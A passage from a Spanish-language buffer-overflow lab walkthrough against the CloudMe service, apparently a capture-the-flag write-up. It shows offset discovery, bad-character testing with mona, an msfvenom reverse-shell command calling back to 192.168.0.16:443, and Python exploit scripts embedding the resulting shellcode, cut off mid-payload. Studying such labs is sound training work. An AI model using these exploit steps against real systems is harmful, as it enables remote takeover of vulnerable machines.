\StringTok{    Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D}
\StringTok{    f3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk}
\StringTok{    5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7}
\StringTok{    Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9D}
\StringTok{    v0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea}
\StringTok{    2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4}
\StringTok{    Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6E}
\StringTok{    k7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep}
\StringTok{    9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1}
\StringTok{    Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3F}
\StringTok{    a4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff}
\StringTok{    6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8}
\StringTok{    Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0F}
\StringTok{    q1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv}
\StringTok{    3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5}
\StringTok{    Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7G}
\StringTok{    f8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}

Una vez mas tenemos que lanzar el CloudMe porque previamente a petado. Tambien tenemos nuevamente que attachear al Immunity Debugger el servicio CloudMe.
Lanzamos el script y vemos que el valor del EIP vale \texttt{316A4230}

Con la herramienta \texttt{pattern\_offset} podemos comprovar cuantas \textbf{A} tengo que meter antes de sobre escribir la EIP

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb}\NormalTok{ -q 316A4230}

\CommentTok{#Output}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Exact match at offset 1052}
\end{Highlighting}
\end{Shaded}

Ahora que tenemos el offset, vamos a modificar el script.

\hypertarget{etapa-4-encontrar-la-direccion-donde-despues-del-eip}{%
\subsubsection*{Etapa 4: Encontrar la direccion donde despues del EIP}\label{etapa-4-encontrar-la-direccion-donde-despues-del-eip}}
\addcontentsline{toc}{subsubsection}{Etapa 4: Encontrar la direccion donde despues del EIP}

Aqui despues de añadir las \textbf{A} que tiene que tener 1052 de offset y las 4 \textbf{B} que seria el EIP, vamos a añadir
500 \textbf{C} para buscar la direccion donde se sobre escribe el resto del programa.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    offset }\OperatorTok{=} \DecValTok{1052}
\NormalTok{    before_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{    eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"B"} \OperatorTok{*} \DecValTok{4}
\NormalTok{    after_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"C"} \OperatorTok{*} \DecValTok{500}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ eip }\OperatorTok{+}\NormalTok{ after_eip}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}

Si lanzamos el script, vemos en el Immunity debugger que el EIP vale ahora 42424242, es el punto donde savemos que tenemos el control
del EIP. Ahora la pregunta es, que tiene que valer el EIP para poderle injectar los commandos que queremos. Pues en el Immunity debugger,
que el \textbf{ESP} contiene un monton de \textbf{C}. el ESP es la Stack. Si le hacemos un click derecho a la direccion y les damos a \textbf{Follow in Dumb},
en la parte baja de la izquierda vemos todas la \textbf{C} en formato raw.

Al final aqui la direccion a la cual tenemos que appuntar es a la \textbf{ESP} \texttt{0x0022D470} que es la pilla. El problema es que no podemos simplemente ponerle al
EIP la direccion del ESP porque esto no va a funccionar. Tendremos aqui que usar un concepto que se llama \textbf{OPCODE}. El \textbf{OPCODE} son instrucciones
a bajo nivel que nos permitte hacer un Jump al ESP llamado \textbf{JMPESP}.

Pero antes de mirrar el \textbf{OPCODE}, vamos a preparar el script malicioso que queremos ejecutar.

\hypertarget{etapa-5-preparacion-del-codigo-malicioso}{%
\subsubsection*{Etapa 5: Preparacion del codigo malicioso}\label{etapa-5-preparacion-del-codigo-malicioso}}
\addcontentsline{toc}{subsubsection}{Etapa 5: Preparacion del codigo malicioso}

Como atacante, no queremos que el programa nos interprete una serie de \textbf{C} pero un codigo malicioso en caracteres Hexadecimal.
El problema que puede surgir, es que algunos caracteres no se logren interpretar por el programa. Estos carateres son llamados \textbf{BadChars}.
Tenemos que empezar por buscar estos \textbf{BadChars}.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Configurar el entorno de trabajo con mona

  A bajo de la ventana del Immunity Debugger, podemos entrar commandos. Aqui creamos un directorio para poder trabajar correctamente

  \begin{itemize}
  \tightlist
  \item
    \texttt{!mona\ config\ -set\ workingfolder\ C:\textbackslash{}Users\textbackslash{}S4vitar\textbackslash{}Desktop\textbackslash{}\%p}
  \end{itemize}

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Buff-mona_set_wdir} \caption{Mona Set working directory}\label{fig:unnamed-chunk-40}
   \end{figure}
\item
  Utilizamos mona para crear una lista de todos los caracteres en Hexadecimal

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{!}\ExtensionTok{mona}\NormalTok{ bytearray -cpb }\StringTok{"\textbackslash{}x00"}
\end{Highlighting}
\end{Shaded}

  Aqui mona nos crea un fichero llamado bytearray\texttt{en\ el\ escritorio\ que\ contiene\ todos\ los\ valores\ en\ Hex\ del\ 01\ al\ FF.\ Por\ prevencion\ \ quittamos\ de\ entrada\ el\ caracter}x00` que es un \textbf{BadChars} bastante commun.
\item
  Enviamos todos estos caracteres en la pila para ver en que punto, o mejor dicho que carateres hacen quel programa pete.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    badChars }\OperatorTok{=}\NormalTok{ (b}\StringTok{"}\CharTok{\textbackslash{}x01\textbackslash{}x02\textbackslash{}x03\textbackslash{}x04\textbackslash{}x05\textbackslash{}x06\textbackslash{}x07\textbackslash{}x08\textbackslash{}x09\textbackslash{}x0a\textbackslash{}x0b\textbackslash{}x0c\textbackslash{}x0d\textbackslash{}x0e\textbackslash{}x0f\textbackslash{}x10\textbackslash{}x11\textbackslash{}x12\textbackslash{}x13\textbackslash{}x14\textbackslash{}x15\textbackslash{}x16\textbackslash{}x17\textbackslash{}x18\textbackslash{}x19\textbackslash{}x1a\textbackslash{}x1b\textbackslash{}x1c\textbackslash{}x1d\textbackslash{}x1e\textbackslash{}x1f\textbackslash{}x20}\StringTok{"}
\NormalTok{    b}\StringTok{"}\CharTok{\textbackslash{}x21\textbackslash{}x22\textbackslash{}x23\textbackslash{}x24\textbackslash{}x25\textbackslash{}x26\textbackslash{}x27\textbackslash{}x28\textbackslash{}x29\textbackslash{}x2a\textbackslash{}x2b\textbackslash{}x2c\textbackslash{}x2d\textbackslash{}x2e\textbackslash{}x2f\textbackslash{}x30\textbackslash{}x31\textbackslash{}x32\textbackslash{}x33\textbackslash{}x34\textbackslash{}x35\textbackslash{}x36\textbackslash{}x37\textbackslash{}x38\textbackslash{}x39\textbackslash{}x3a\textbackslash{}x3b\textbackslash{}x3c\textbackslash{}x3d\textbackslash{}x3e\textbackslash{}x3f\textbackslash{}x40}\StringTok{"}
\NormalTok{    b}\StringTok{"}\CharTok{\textbackslash{}x41\textbackslash{}x42\textbackslash{}x43\textbackslash{}x44\textbackslash{}x45\textbackslash{}x46\textbackslash{}x47\textbackslash{}x48\textbackslash{}x49\textbackslash{}x4a\textbackslash{}x4b\textbackslash{}x4c\textbackslash{}x4d\textbackslash{}x4e\textbackslash{}x4f\textbackslash{}x50\textbackslash{}x51\textbackslash{}x52\textbackslash{}x53\textbackslash{}x54\textbackslash{}x55\textbackslash{}x56\textbackslash{}x57\textbackslash{}x58\textbackslash{}x59\textbackslash{}x5a\textbackslash{}x5b\textbackslash{}x5c\textbackslash{}x5d\textbackslash{}x5e\textbackslash{}x5f\textbackslash{}x60}\StringTok{"}
\NormalTok{    b}\StringTok{"}\CharTok{\textbackslash{}x61\textbackslash{}x62\textbackslash{}x63\textbackslash{}x64\textbackslash{}x65\textbackslash{}x66\textbackslash{}x67\textbackslash{}x68\textbackslash{}x69\textbackslash{}x6a\textbackslash{}x6b\textbackslash{}x6c\textbackslash{}x6d\textbackslash{}x6e\textbackslash{}x6f\textbackslash{}x70\textbackslash{}x71\textbackslash{}x72\textbackslash{}x73\textbackslash{}x74\textbackslash{}x75\textbackslash{}x76\textbackslash{}x77\textbackslash{}x78\textbackslash{}x79\textbackslash{}x7a\textbackslash{}x7b\textbackslash{}x7c\textbackslash{}x7d\textbackslash{}x7e\textbackslash{}x7f\textbackslash{}x80}\StringTok{"}
\NormalTok{    b}\StringTok{"}\CharTok{\textbackslash{}x81\textbackslash{}x82\textbackslash{}x83\textbackslash{}x84\textbackslash{}x85\textbackslash{}x86\textbackslash{}x87\textbackslash{}x88\textbackslash{}x89\textbackslash{}x8a\textbackslash{}x8b\textbackslash{}x8c\textbackslash{}x8d\textbackslash{}x8e\textbackslash{}x8f\textbackslash{}x90\textbackslash{}x91\textbackslash{}x92\textbackslash{}x93\textbackslash{}x94\textbackslash{}x95\textbackslash{}x96\textbackslash{}x97\textbackslash{}x98\textbackslash{}x99\textbackslash{}x9a\textbackslash{}x9b\textbackslash{}x9c\textbackslash{}x9d\textbackslash{}x9e\textbackslash{}x9f\textbackslash{}xa0}\StringTok{"}
\NormalTok{    b}\StringTok{"}\CharTok{\textbackslash{}xa1\textbackslash{}xa2\textbackslash{}xa3\textbackslash{}xa4\textbackslash{}xa5\textbackslash{}xa6\textbackslash{}xa7\textbackslash{}xa8\textbackslash{}xa9\textbackslash{}xaa\textbackslash{}xab\textbackslash{}xac\textbackslash{}xad\textbackslash{}xae\textbackslash{}xaf\textbackslash{}xb0\textbackslash{}xb1\textbackslash{}xb2\textbackslash{}xb3\textbackslash{}xb4\textbackslash{}xb5\textbackslash{}xb6\textbackslash{}xb7\textbackslash{}xb8\textbackslash{}xb9\textbackslash{}xba\textbackslash{}xbb\textbackslash{}xbc\textbackslash{}xbd\textbackslash{}xbe\textbackslash{}xbf\textbackslash{}xc0}\StringTok{"}
\NormalTok{    b}\StringTok{"}\CharTok{\textbackslash{}xc1\textbackslash{}xc2\textbackslash{}xc3\textbackslash{}xc4\textbackslash{}xc5\textbackslash{}xc6\textbackslash{}xc7\textbackslash{}xc8\textbackslash{}xc9\textbackslash{}xca\textbackslash{}xcb\textbackslash{}xcc\textbackslash{}xcd\textbackslash{}xce\textbackslash{}xcf\textbackslash{}xd0\textbackslash{}xd1\textbackslash{}xd2\textbackslash{}xd3\textbackslash{}xd4\textbackslash{}xd5\textbackslash{}xd6\textbackslash{}xd7\textbackslash{}xd8\textbackslash{}xd9\textbackslash{}xda\textbackslash{}xdb\textbackslash{}xdc\textbackslash{}xdd\textbackslash{}xde\textbackslash{}xdf\textbackslash{}xe0}\StringTok{"}
\NormalTok{    b}\StringTok{"}\CharTok{\textbackslash{}xe1\textbackslash{}xe2\textbackslash{}xe3\textbackslash{}xe4\textbackslash{}xe5\textbackslash{}xe6\textbackslash{}xe7\textbackslash{}xe8\textbackslash{}xe9\textbackslash{}xea\textbackslash{}xeb\textbackslash{}xec\textbackslash{}xed\textbackslash{}xee\textbackslash{}xef\textbackslash{}xf0}\StringTok{ }\CharTok{\textbackslash{}xf1\textbackslash{}xf2\textbackslash{}xf3\textbackslash{}xf4\textbackslash{}xf5\textbackslash{}xf6\textbackslash{}xf7\textbackslash{}xf8\textbackslash{}xf9\textbackslash{}xfa\textbackslash{}xfb\textbackslash{}xfc\textbackslash{}xfd\textbackslash{}xfe\textbackslash{}xff}\StringTok{"}\NormalTok{)}
\NormalTok{    offset }\OperatorTok{=} \DecValTok{1052}
\NormalTok{    before_eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{    eip }\OperatorTok{=}\NormalTok{ b}\StringTok{"B"} \OperatorTok{*} \DecValTok{4}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ eip }\OperatorTok{+}\NormalTok{ badChars}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}
\item
  En el Immunity debugger con mona miramos que caracteres no an sido interpretado

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Buff-BadChars} \caption{Buf Bad chars}\label{fig:unnamed-chunk-41}
   \end{figure}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{!}\ExtensionTok{mona}\NormalTok{ compare -f C:\textbackslash{}Users\textbackslash{}S4vitar\textbackslash{}Desktop\textbackslash{}CloudMe\textbackslash{}bytearray.txt -a 0022D470}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

En el caso que nos reporte \textbf{BadChars} tendriamos que quitarlos de la lista y volver a effectuar lo mismo hasta que no
tengamos mas \textbf{BadChars}. Y desde aqui nos podemos crear el script malicioso con la lista de caracteres que tenemos. En
este caso no hay \textbf{BadChars} pero le quitaremos siempre el \texttt{\textbackslash{}x00} por precaucion.

\hypertarget{etapa-6-creacion-del-shell-code-malicioso}{%
\subsubsection*{Etapa 6: Creacion del shell code malicioso}\label{etapa-6-creacion-del-shell-code-malicioso}}
\addcontentsline{toc}{subsubsection}{Etapa 6: Creacion del shell code malicioso}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -p windows/shell_reverse_tcp LHOST=192.168.0.16 LPORT=443 -a x86 --platform windows -b }\StringTok{"\textbackslash{}x00"}\NormalTok{ -e x86/shikata_ga_nai -f c}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Buff-Shell-code} \caption{Buf Shell code}\label{fig:unnamed-chunk-42}
\end{figure}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    shellcode }\OperatorTok{=}\NormalTok{ (b}\StringTok{"}\CharTok{\textbackslash{}xba\textbackslash{}xf8\textbackslash{}x9f\textbackslash{}xaf\textbackslash{}x72\textbackslash{}xda\textbackslash{}xce\textbackslash{}xd9\textbackslash{}x74\textbackslash{}x24\textbackslash{}xf4\textbackslash{}x5d\textbackslash{}x31\textbackslash{}xc9\textbackslash{}xb1}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x52\textbackslash{}x31\textbackslash{}x55\textbackslash{}x12\textbackslash{}x83\textbackslash{}xc5\textbackslash{}x04\textbackslash{}x03\textbackslash{}xad\textbackslash{}x91\textbackslash{}x4d\textbackslash{}x87\textbackslash{}xb1\textbackslash{}x46\textbackslash{}x13}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x68\textbackslash{}x49\textbackslash{}x97\textbackslash{}x74\textbackslash{}xe0\textbackslash{}xac\textbackslash{}xa6\textbackslash{}xb4\textbackslash{}x96\textbackslash{}xa5\textbackslash{}x99\textbackslash{}x04\textbackslash{}xdc\textbackslash{}xeb\textbackslash{}x15}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xee\textbackslash{}xb0\textbackslash{}x1f\textbackslash{}xad\textbackslash{}x82\textbackslash{}x1c\textbackslash{}x10\textbackslash{}x06\textbackslash{}x28\textbackslash{}x7b\textbackslash{}x1f\textbackslash{}x97\textbackslash{}x01\textbackslash{}xbf\textbackslash{}x3e}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x1b\textbackslash{}x58\textbackslash{}xec\textbackslash{}xe0\textbackslash{}x22\textbackslash{}x93\textbackslash{}xe1\textbackslash{}xe1\textbackslash{}x63\textbackslash{}xce\textbackslash{}x08\textbackslash{}xb3\textbackslash{}x3c\textbackslash{}x84\textbackslash{}xbf}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x23\textbackslash{}x48\textbackslash{}xd0\textbackslash{}x03\textbackslash{}xc8\textbackslash{}x02\textbackslash{}xf4\textbackslash{}x03\textbackslash{}x2d\textbackslash{}xd2\textbackslash{}xf7\textbackslash{}x22\textbackslash{}xe0\textbackslash{}x68\textbackslash{}xae}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xe4\textbackslash{}x03\textbackslash{}xbc\textbackslash{}xda\textbackslash{}xac\textbackslash{}x1b\textbackslash{}xa1\textbackslash{}xe7\textbackslash{}x67\textbackslash{}x90\textbackslash{}x11\textbackslash{}x93\textbackslash{}x79\textbackslash{}x70\textbackslash{}x68}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x5c\textbackslash{}xd5\textbackslash{}xbd\textbackslash{}x44\textbackslash{}xaf\textbackslash{}x27\textbackslash{}xfa\textbackslash{}x63\textbackslash{}x50\textbackslash{}x52\textbackslash{}xf2\textbackslash{}x97\textbackslash{}xed\textbackslash{}x65\textbackslash{}xc1}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xea\textbackslash{}x29\textbackslash{}xe3\textbackslash{}xd1\textbackslash{}x4d\textbackslash{}xb9\textbackslash{}x53\textbackslash{}x3d\textbackslash{}x6f\textbackslash{}x6e\textbackslash{}x05\textbackslash{}xb6\textbackslash{}x63\textbackslash{}xdb\textbackslash{}x41}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x90\textbackslash{}x67\textbackslash{}xda\textbackslash{}x86\textbackslash{}xab\textbackslash{}x9c\textbackslash{}x57\textbackslash{}x29\textbackslash{}x7b\textbackslash{}x15\textbackslash{}x23\textbackslash{}x0e\textbackslash{}x5f\textbackslash{}x7d\textbackslash{}xf7}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x2f\textbackslash{}xc6\textbackslash{}xdb\textbackslash{}x56\textbackslash{}x4f\textbackslash{}x18\textbackslash{}x84\textbackslash{}x07\textbackslash{}xf5\textbackslash{}x53\textbackslash{}x29\textbackslash{}x53\textbackslash{}x84\textbackslash{}x3e\textbackslash{}x26}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x90\textbackslash{}xa5\textbackslash{}xc0\textbackslash{}xb6\textbackslash{}xbe\textbackslash{}xbe\textbackslash{}xb3\textbackslash{}x84\textbackslash{}x61\textbackslash{}x15\textbackslash{}x5b\textbackslash{}xa5\textbackslash{}xea\textbackslash{}xb3\textbackslash{}x9c}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xca\textbackslash{}xc0\textbackslash{}x04\textbackslash{}x32\textbackslash{}x35\textbackslash{}xeb\textbackslash{}x74\textbackslash{}x1b\textbackslash{}xf2\textbackslash{}xbf\textbackslash{}x24\textbackslash{}x33\textbackslash{}xd3\textbackslash{}xbf\textbackslash{}xae}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xc3\textbackslash{}xdc\textbackslash{}x15\textbackslash{}x60\textbackslash{}x93\textbackslash{}x72\textbackslash{}xc6\textbackslash{}xc1\textbackslash{}x43\textbackslash{}x33\textbackslash{}xb6\textbackslash{}xa9\textbackslash{}x89\textbackslash{}xbc\textbackslash{}xe9}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}xca\textbackslash{}xb2\textbackslash{}x16\textbackslash{}x82\textbackslash{}x61\textbackslash{}x49\textbackslash{}xf1\textbackslash{}x6d\textbackslash{}xdd\textbackslash{}x51\textbackslash{}x11\textbackslash{}x06\textbackslash{}x1c\textbackslash{}x51\textbackslash{}x10}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x6d\textbackslash{}xa9\textbackslash{}xb7\textbackslash{}x78\textbackslash{}x81\textbackslash{}xfc\textbackslash{}x60\textbackslash{}x15\textbackslash{}x38\textbackslash{}xa5\textbackslash{}xfa\textbackslash{}x84\textbackslash{}xc5\textbackslash{}x73\textbackslash{}x87}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x87\textbackslash{}x4e\textbackslash{}x70\textbackslash{}x78\textbackslash{}x49\textbackslash{}xa7\textbackslash{}xfd\textbackslash{}x6a\textbackslash{}x3e\textbackslash{}x47\textbackslash{}x48\textbackslash{}xd0\textbackslash{}xe9\textbackslash{}x58\textbackslash{}x66}\StringTok{"}
\NormalTok{        b}\StringTok{"}\CharTok{\textbackslash{}x7c\textbackslash{}x75\textbackslash{}xca\textbackslash{}xed\textbackslash{}x7c\textbackslash{}xf0\textbackslash{}xf7\textbackslash{}xb9\textbackslash{}x2b\textbackslash{}x55\textbackslash{}xc9\textbackslash{}xb3\textbackslash{}xb9\textbackslash{}x4b\textbackslash{}x70}\StringTok{"}
